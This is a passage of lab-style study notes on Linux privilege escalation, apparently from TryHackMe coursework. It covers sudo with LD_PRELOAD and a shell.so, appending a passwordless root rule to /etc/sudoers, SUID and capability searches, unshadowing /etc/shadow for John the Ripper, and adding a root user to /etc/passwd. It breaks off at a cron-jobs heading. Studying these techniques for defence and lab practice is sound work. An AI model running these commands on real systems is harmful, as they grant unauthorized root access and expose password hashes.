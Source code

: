 then run
```bash
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

--------------------------------------------
To add user to sudoers do this, so you can run sudo su, and go to root

```bash
echo 'echo "user ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > sudo.sh
```

--------------------------------------------------------------

**Privilege Escalation: SUID**

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
will list files that have SUID or SGID bits set.

A good practice would be to compare executables on this list with GTFOBins (https://gtfobins.github.io).


John the Ripper: unshadow tool
To achieve this, unshadow needs both the /etc/shadow and /etc/passwd files.
```bash
unshadow passwd.txt shadow.txt > passwords.txt
```

The other option would be to add a new user that has root privileges. This would help us circumvent the tedious process of password cracking. Below is an easy way to do it:

We will need the hash value of the password we want the new user to have. This can be done quickly using the openssl tool on Kali Linux.

```bash
openssl passwd -1 -salt THM password1
```
We will then add this password with a username to the /etc/passwd file.

----------------------------------------------------------------

**Privilege Escalation: Capabilities**

Another method system administrators can use to increase the privilege level of a process or binary is “Capabilities”. Capabilities help manage privileges at a more granular level.

We can use the 
```bash
getcap -r / 2>/dev/null 
```
tool to list enabled capabilities.

When run as an unprivileged user, getcap -r / will generate a huge amount of errors, so it is good practice to redirect the error messages to /dev/null.

----------------------------------------------------------------

**Privilege Escalation: Cron Jobs**

